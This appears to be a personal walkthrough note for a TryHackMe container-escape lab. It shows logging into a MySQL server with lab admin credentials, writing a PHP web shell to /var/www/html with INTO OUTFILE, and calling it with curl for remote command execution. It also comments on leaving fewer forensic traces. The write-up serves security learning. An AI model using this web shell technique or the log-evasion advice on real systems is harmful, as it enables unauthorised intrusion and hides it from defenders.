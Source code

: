 Now that you have identified that you are in a container and have performed all the information gathering and situational awareness you can, you can escape the container by exploiting the remote database.  

There are several ways to escape a container, all typically stemming from misconfigurations of the container from services or access controls.  

For more information about container best practices and docker security, check out this OWASP cheat-sheet, [https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html).  

A method that's not quite as common is Exploitation. Exploits to escape Containers aren't as common and typically rely on abusing a process running on the host machine. Exploits usually require some level of user interaction, for example, [CVE-2019-14271](https://unit42.paloaltonetworks.com/docker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271/). It can also be beneficial to use a container enumeration script such as DEEPCE, [https://github.com/stealthcopter/deepce](https://github.com/stealthcopter/deepce).  

Since we gained access to a remote database, we can utilize it to gain command execution and escape the container from MySQL.  

The basic methodology for exploiting MySQL can be found below.  

- Access the remote database using administrator credentials
    
- Create a new table in the main database
    
- Inject PHP code to gain command execution
    
    Example code: `<?php $cmd=$_GET["cmd"];system($cmd);?>`  
    
- Drop table contents onto a file the user can access  
    
- Execute and obtain RCE on the host.
    

Looking at the above exploit may seem complicated, but we can break it down further and provide more context to make it simpler.  

We can use a single command to inject our PHP code into a table and save the table into a file on the remote system. We are writing any code that we want onto the remote system from this command, which we can then execute, giving use code execution. Find the command used below.  

Command used: `select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';`

Now that we have a file that we control dropped on the system, we can curl the address and obtain RCE from the dropped file. Find example usage below.  

Example usage: `curl 127.0.0.1:8080/shell.php?cmd=whoami`

---
# Your job

## Break out the container

The key to breaking out here is the fact we have access to that DB. The access we have permits us to write to the database, then we can call our written table enteries.
The following commands are run on the victim machine.
### Access the remote database using administrator credentials

`mysql -u admin -p -h 192.168.100.1`

Password: `!123SecureAdminDashboard321!`

### Create a new table in the main database

Create a table in the `DashboardDB` database.

- Select the database.
	mysql> `use DashboardDB;`

- Create a table.
	You also need a column which allow a lot of characters, so use varchar (variable characters) with a length of 255.
	
	mysql> `CREATE TABLE hax(Code varchar(255));`

- Inject PHP code to gain command execution.
	To add the code in, we can escape the special characters.
	To escape the characters, we need to add a `“\”` before the special characters that are being entered, resulting in the SQL statement being:
	
	mysql> `INSERT INTO hax (Code) value ('<?php $cmd=$_GET[\"cmd\"]\;system($cmd)\;?>');`

- Check the code.
	mysql> `SELECT * FROM hax;`
	![[Task 18 - Making Thin Lizzy Proud-20240917135834697.webp]]

### Drop table contents onto a file

- Drop table contents onto a file the user can access.
	You can only save the  file in `/var/www/html`.
	
	mysql> `SELECT * FROM hax INTO OUTFILE /var/www/html/hax.php';`

### Accessing 192.168.100.1 machine

- Execute and obtain RCE on the host.
	You can’t view the website via a browser, as you still don’t have a proxy through this box and you only have command line access. So instead you need to use `curl`.
	
	www-data@f988aa7b2fb3:/var/www/html$ `curl 192.168.100.1:8080/hax.php?cmd=whoami`
	
	![[Task 18 - Making Thin Lizzy Proud-20240917142609190.webp]]

- Check that you are talking to a different machine.
	www-data@f988aa7b2fb3:/var/www/html$ `hostname`
	![[Task 18 - Making Thin Lizzy Proud-20240917143015435.webp]]
	
	www-data@69cd1465ecc9:/var/www/admin$ `curl 192.168.100.1:8080/hax.php?cmd=hostname`
	![[Task 18 - Making Thin Lizzy Proud-20240917143142963.webp]]


> It should be noted, that the one liner provided by TryHackMe is actually a much better solution as it doesn’t write anything to the database, and therefore will be less logs and if the outfile is removed at the end of the engagement, any forensics might be slightly more difficult (although the command should still show in the MySQL logs!)
>  How does that one liner work? Well basically it just skips writing anything to the table, instead it selects the PHP code and directs it straight into a file.

**Next step:** [[Task 19 - Going%20out%20with%20a%20SHEBANG%21]]
